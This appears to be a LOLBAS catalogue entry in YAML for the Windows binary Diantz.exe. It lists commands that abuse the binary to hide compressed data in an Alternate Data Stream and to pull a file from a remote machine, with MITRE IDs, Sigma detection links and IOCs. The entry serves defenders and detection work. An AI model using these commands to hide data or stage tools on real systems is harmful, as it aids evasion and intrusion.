 ```yaml
---
Name: Diantz.exe
Description: Binary that package existing files into a cabinet (.cab) file
Author: 'Tamir Yehuda'
Created: 2020-08-08
Commands:
  - Command: diantz.exe c:\pathToFile\file.exe c:\destinationFolder\targetFile.txt:targetFile.cab
    Description: Compress taget file into a cab file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.
  - Command: diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
    Description: Download and compress a remote file and store it in a cab file on local machine.
    Usecase: Download and compress into a cab file.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
Full_Path:
  - Path: c:\windows\system32\diantz.exe
  - Path: c:\windows\syswow64\diantz.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_ads.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_remote_cab.yml
  - IOC: diantz storing data into alternate data streams.
  - IOC: diantz getting a file from a remote machine or the internet.
Resources:
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz
Acknowledgement:
  - Person: Tamir Yehuda
    Handle: '@tim8288'
  - Person: Hai Vaknin
    Handle: '@vakninhai'
---
```

